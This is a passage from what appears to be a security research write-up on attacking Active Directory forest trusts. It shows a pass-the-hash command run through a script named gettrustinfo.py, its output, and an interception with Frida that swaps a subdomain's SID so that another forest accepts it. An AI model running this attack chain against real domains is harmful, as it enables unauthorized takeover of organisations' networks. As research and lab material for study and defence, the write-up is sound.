 Now we start the [Frida script](https://github.com/dirkjanm/forest-trust-tools/blob/master/frida_intercept.py) as SYSTEM on the DC and run the call again:

![Intercepting with Frida](/assets/img/foresttrusts/fridaintercepted.png){: .align-center}

```
python gettrustinfo.py forest-a/forest-b.krbtgt.cloud@forest-a-dc -hashes :8ef7d1bc6e961fd4ed085d6fd1e6ce10 -target-ip 51.144.50.171
 ...snip...
DomainInfo:                     
    Sid:                            
        Revision:                        1 
        SubAuthorityCount:               4 
        IdentifierAuthority:             '\x00\x00\x00\x00\x00\x05' 
        SubAuthority:                   
            [
                 21,
                 2937342636,
                 164546242,
                 3042484607,
            ] 
    DnsName:                         u'sub.forest-a.krbtgt.cloud' 
    NetbiosName:                     u'SUB' ,
 ...snip...
```

Note that the SID (part of the `SubAuthority` field) changed to the SID of the server in forest B we want to attack, confirming our intereception is working.

### Executing the chain
Now we'd need to wait for forest B to query the new information and accept it. I know what you're thinking, why does changing the SID of an existing domain work? Turns out forest B does not care that the SID of a subdomain in forest A suddenly changed while the domain name remained the same, and happily overwrites this in it's database. If in a lab, you can actually speed up the process by logging in on the DC of forest B and saving the trust domains to a file, which will trigger an update.
